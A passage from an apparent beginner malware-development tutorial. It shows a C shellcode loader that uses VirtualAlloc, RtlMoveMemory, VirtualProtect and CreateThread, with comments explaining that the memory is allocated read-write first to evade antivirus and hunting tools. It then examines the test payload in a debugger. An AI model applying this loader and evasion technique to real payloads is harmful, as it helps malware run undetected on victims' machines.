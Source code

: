 ```c
	};
	unsigned int payload_len = 4;
	
	// We have to allocate memory in order to run the payload over the process
	// Then copy the payload into the memory
	// Then execute the payload in the memory region

	// Here we allocate a memory buffer of the payload length
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("%-20s : 0x%-016p\n", "payload addr", (void *)payload);
	printf("%-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);

	// Copy payload to the created buffer
	RtlMoveMemory(exec_mem, payload, payload_len);
	
	// Make the created buffer as executable.
	// We do not do it in the VirtualAlloc calls as AV engines and some hunting tools
	// May spot that we want to allocate RWX region 
	// We do a two step operation: allocate memory + change memory type to eXecute.
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

	printf("\nHit me!\n");

	// The program will stop at this point.
	getchar();

	// If all good, run the payload
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}

```

We declare dynamically the shellcode that we will execute as a char array (we know that this will be in the stack). 
Then, we allocate memory on the process, **but the allocation is only for reading+writing, not executing. 
This is to avoid AVs and tracers and be more stealthy.**
Then, we copy the payload to the created buffer and change the memory type that we created to executable. Lastly, we will run the memory that we marked as an executable, containing the payload.

Let's attach the debugger to the program running. After attaching the debugger to the program and searching for the shellcode pattern in memory (90 90 cc ce):
![[attachments/sektor_beginner-5.png]]

We can see that the pattern is in three sections:
![[attachments/sektor_beginner-6.png]]
